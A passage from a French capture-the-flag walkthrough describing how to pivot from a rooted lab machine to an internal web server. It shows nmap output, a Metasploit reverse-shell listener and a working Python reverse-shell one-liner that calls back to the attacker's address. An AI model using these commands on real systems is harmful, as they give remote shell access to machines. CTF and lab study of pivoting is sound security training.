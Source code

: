 ```
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN LOGIN) USER UIDL CAPA RESP-CODES PIPELINING TOP AUTH-RESP-CODE
143/tcp open  imap    Dovecot imapd (Ubuntu)
|_imap-capabilities: SASL-IR capabilities ENABLE more have AUTH=LOGINA0001 post-login listed OK ID Pre-login LITERAL+ IDLE AUTH=PLAIN IMAP4rev1 LOGIN-REFERRALS
```

Le flag qu'on vient d'obtenir nous dit de se diriger vers le **serveur Web**. Il s'agit de la machine **172.17.0.2**.

Sauf que le **problème** est le suivant : comment peut-on accéder via notre navigateur (sur le réseau 192.168.1.0/24) au serveur web situé sur le réseau 172.17.0.0/16 ?

La réponse est qu'il faut faire du port forwarding pour rediriger le flux d'un réseau à l'autre. Et c'est là qu'intervient **Metasploit** !

* * *

## Pivoter

Si c'est encore un peu brouillon pour certains voici un petit **récapitulatif** de ce qu'on veut faire actuellement :

* Nous sommes actuellement root sur la machine 172.17.0.5 sur le réseau 172.17.0.0/16.
* Nous voulons accéder en local (réseau 192.168.1.0/24) le port 80 sur serveur 172.17.0.2 qui lui aussi est sur le réseau 172.17.0.0/16.
* Il nous faut donc faire du port forwarding et nous allons utiliser **Metasploit**.

La première chose à faire est de récupérer un shell sur Metasploit. On se met en écoute sur le port 4444 :

```bash
msfconsole

use multi/handler
set payload linux/x86/shell_reverse_tcp
set lhost 192.168.1.16
run
```

Sur la machine cible (``172.17.0.5``) sur laquelle on est root, on doit exécuter un reverse shell pour se connecter sur notre port 4444. 
Personnellement j'en ai utilisé un en Python qui provient d'[**ici**](https://highon.coffee/blog/reverse-shell-cheat-sheet/).

Il faut juste changer la version de Python car sur la machine uniquement ``python3`` est présent :

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.16",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

On obtient donc un shell sur Metasploit. Il faut maintenant upgrade notre simple shell en **meterperter** pour avoir plus d'options :
